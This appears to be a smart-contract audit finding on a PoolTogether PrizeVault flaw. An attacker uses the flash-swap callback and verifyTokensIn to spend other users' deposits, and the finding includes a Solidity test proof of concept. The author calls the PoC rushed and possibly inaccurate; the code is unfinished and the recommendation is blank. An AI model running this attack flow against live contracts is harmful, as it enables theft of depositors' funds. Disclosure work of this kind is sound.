 Creamy Ginger Salamander

high

# Complex attack using flashswapcallback to steal user's deposits

## Summary
Complex attack using flashswapcallback to steal user's deposits

## Vulnerability Detail
The attack requires that prizeToken = yieldToken, since Prizetoken is WETH this is common enough to not be a constraint 

**The vulnerability combines 2 steps**
1. The attacker must perform some actions (deposit lots of yield then liquidate it) to enter a state where all the yieldVault shares are redeemed hence the PrizeVault will hold the deposits of all users

2. Within the `flashSwapCallback` the attacker needs to deposit into the PrizeVault, these deposits will mint YieldVault shares and go into the yieldVault

3. Now after the `flashSwapCallback`, when the call to `verifyTokensIn` takes place, it will contribute to the prizePool the original user's deposited tokens

4. The attacker can withdraw his deposit, he has stolen the liquidated yield and made the users pay for it

## Impact
Main impact is the attacker stealing from users

Users make a huge loss

## Proof of concept

```solidity
function test__ComplexCallback() public {

        // Multiple users deposit into the vault
        vm.startPrank(alice);
        prizeVault.deposit(10e6, alice);

        vm.startPrank(vitalik);
        prizeVault.deposit(10e6, vitalik);

        console.log("Total YieldVault shares owned by PrizeVault after deposits =", yieldVault.balanceOf(address(prizeVault)));

        _accrueYield();


        // The attacker directly transfers yield into the yieldVault
        vm.startPrank(bob);
        underlyingAsset.transfer(address(yieldVault), 700000000e6);

        // The attacker immediately liquidates the yield for a minimal amount of prizeTokens (since the amount of yield does not influence the price)
        vm.stopPrank();
        prizeVault.transferTokensOut(address(0), bob, address(underlyingAsset), prizeVault.liquidatableBalanceOf(address(underlyingAsset)));

        // This shows there are no more yieldVault shares left
        console.log("Total YieldVault shares owned by PrizeVault after liquidation =", yieldVault.balanceOf(address(prizeVault)));

        // Callback
        vm.startPrank(bob);
        prizeVault.deposit(100000e6, bob);

        // verify tokens in, it will spend the other user's deposit stuck in the PrizeVault
        vm.stopPrank();
        prizeVault.verifyTokensIn(address(underlyingAsset), 1000, abi.encodePacked(underlyingAsset, uint256(1000)));

        // It is crucial to see that at no point did the liquidator transfer tokens in to pay for what they got
        //Now the attacker bob can withdraw the tokens he deposited

```

Considering I submitted this with 15 mins left, the POC is not optimized but it works and gets the point across of the flow BUT the numbers may not be entirely accurate

## Code Snippet
https://github.com/sherlock-audit/2024-05-pooltogether/blob/1aa1b8c028b659585e4c7a6b9b652fb075f86db3/pt-v5-vault/src/PrizeVault.sol#L747

## Tool used

Manual Review

## Recommendation